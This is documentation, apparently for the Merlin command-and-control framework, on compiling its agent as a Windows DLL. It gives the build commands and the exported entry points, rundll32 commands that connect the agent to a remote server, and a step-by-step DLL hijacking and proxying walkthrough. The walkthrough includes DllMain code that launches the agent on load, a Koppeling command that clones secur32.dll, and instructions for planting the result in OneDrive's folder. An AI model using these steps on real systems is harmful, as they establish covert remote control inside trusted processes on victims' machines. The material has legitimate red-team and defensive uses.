


#########
DLL Agent
#########

The Merlin Agent can be compiled into a DLL using the https://github.com/Ne0nd0g/merlin-agent-dll repository.
The ``merlin.c`` file is a very simple C file with a single function.
The ``VoidFunc`` and ``Run`` functions are exported to facilitate executing the DLL.

The ``VoidFunc`` function name was specifically chosen to facilitate use with PowerSploit's
`Invoke-ReflectivePEInjection.ps1 <https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1>`_.
Using ``VoidFunc`` requires no modification to run Merlin's DLL with Invoke-ReflectivePEInjection.

If the DLL is compiled on Windows, the `TDM-GCC <http://tdm-gcc.tdragon.net/download>`_ 64bit compiler has proven to work well during testing.

If the DLL is compiled on Linux, ensure ``MinGW-w64`` is installed.

Creating the DLL
----------------

The DLL can be created using the Make file with ``make``

Alternatively, it can be compiled without Make by following these steps:

* Create the required C archive file:
    ``go build -buildmode=c-archive main.go``

* Compile the DLL
    ``gcc -shared -pthread -o merlin.dll merlin.c main.a -lwinmm -lntdll -lws2_32``

You will now have DLL file that you can use with whatever method of execution you would like.

DLL Entry Points
----------------

This table catalogs the exported functions for ``merlin.dll`` that can be used as an entry point when executing the DLL.

.. csv-table:: Exported DLL Functions
   :header: "Exported Function", "Status", "Notes"
   :widths: auto

    Run, Working, Main function to execute Merlin agent
    DllInstall, Partial, Used with regsvr32.exe /i . Handling for ``/i`` not implemented
    DllRegisterServer, Working, Used with regsvr32.exe
    DllUnregisterServer, Working, Used with regsvr32.exe /u
    ReflectiveLoader, Removed, Used with Metasploit's windows/manage/reflective_dll_inject module
    Magic, Working, Exported function in ``merlin.c``; used with sRDI or any other method
    Merlin, Working, Exported function in ``main.go``
    VoidFunc, Working, Used with PowerSploit's Invoke-ReflectivePEInjection.ps1

Execution with rundll32.exe
----------------------------

The DLL can be executed on a Windows host using the rundll32.exe program. Examples of using ``rundll32`` are:

* ``rundll32 merlin.dll,Run``
* ``rundll32 merlin.dll,Merlin``
* ``rundll32 merlin.dll,Magic``

A different Merlin server *can* be provided when executing the DLL by supplying the target URL as an argument. An example is:

``rundll32 merlin.dll,Run https://yourdomian.com:443/``

**NOTE:** Passing a custom URL only works when using cmd.exe and fails when using powershell.exe

DLL Hijacking/Proxying with the Merlin DLL Agent
------------------------------------------------

With a little bit of setup, the Merlin DLL agent can be used for DLL Hijacking / Side-loading / Proxying. This is a great technique to get the Merlin agent running in the codespace of a trusted process.

The specifics on choosing an executable for DLL proxying are outside the scope of this documentation. Assume that a candidate executable has been identified.

In the ``merlin-agent-dll`` repo, add a new exported function with an arbitrary name to ``main.go``. Have this function execute the ``run`` function with the ``url`` argument:

.. code-block:: go
    
    ...[SNIP]...
    
    // EXPORTED FUNCTIONS

    // MagicMan is a test function
    //
    //export MagicMan
    func MagicMan() {
        run(url)
    }

    ...[SNIP]...

Note that the name of the exported function must match in the comment block and the code itself or Go will complain during compilation.

Now, in the ``merlin.c`` source code, add a new function that executes the exported function from ``main.go``:

.. code-block:: c
    
    ...[SNIP]...
    
    DWORD WINAPI RunMagicMan(LPVOID LpParam){
        //MessageBoxA( NULL, "Hello from MagicMan() in Merlin", "DLL Load", MB_OK );
        MagicMan();
        return TRUE;
    }

    ...[SNIP]...

Next, edit the structure of ``DllMain`` entry point. We want to create a thread that will execute the Merlin agent function when the DLL is side-loaded into the process:

.. code-block:: c
    
    ...[SNIP]...
    
    BOOL WINAPI DllMain(
        HINSTANCE hinstDLL,  // handle to DLL module
        DWORD fdwReason,     // reason for calling function
        LPVOID lpReserved )  // reserved
    {
        // Perform actions based on the reason for calling.
        switch( fdwReason )
        {
            case DLL_PROCESS_ATTACH:
                //MessageBoxA( NULL, "Hello from DllMain-PROCESS_ATTACH in Merlin!", "DLL Load", MB_OK );
                CreateThread(NULL, 0, RunMagicMan, NULL, 0, 0);
                break;

    ...[SNIP]...
    
Now, when the Merlin DLL Agent is loaded by a trusted process, the DLL entry point will run the CreateThread function and execute the agent.

Build the DLL agent with the merlin-agent-dll makefile and supply your desired URL, PSK, and protocol parameters:

``husky@dev-kde:~/merlin-agent-dll$ make URL=http://10.10.1.237:8443 PSK=merlin PROTO=http``

Let's assume that we're targeting the OneDrive.exe program for our DLL Proxy. We know that OneDrive.exe loads ``secur32.dll`` from the present working directory during execution.

We can now use a tool like Koppelling to create a proxied DLL:

``PS C:\Users\Matt\Desktop\Koppeling> .\NetClone.exe --target 'C:\Users\Matt\Desktop\merlin.dll' --reference 'C:\Windows\system32\secur32.dll' --output 'C:\Users\Matt\Desktop\secur32.dll'``

Then, we endeavor to drop our proxied DLL into the OneDrive application directory. Luckily for us, this is in %APPDATA% and we can write to the directory: 

``C:\Users\Matt\AppData\Local\Microsoft\OneDrive``

When the application starts, our proxied DLL is pulled into the process and a thread is executed. Our session is established and our agent lives inside the OneDrive.exe process:

   

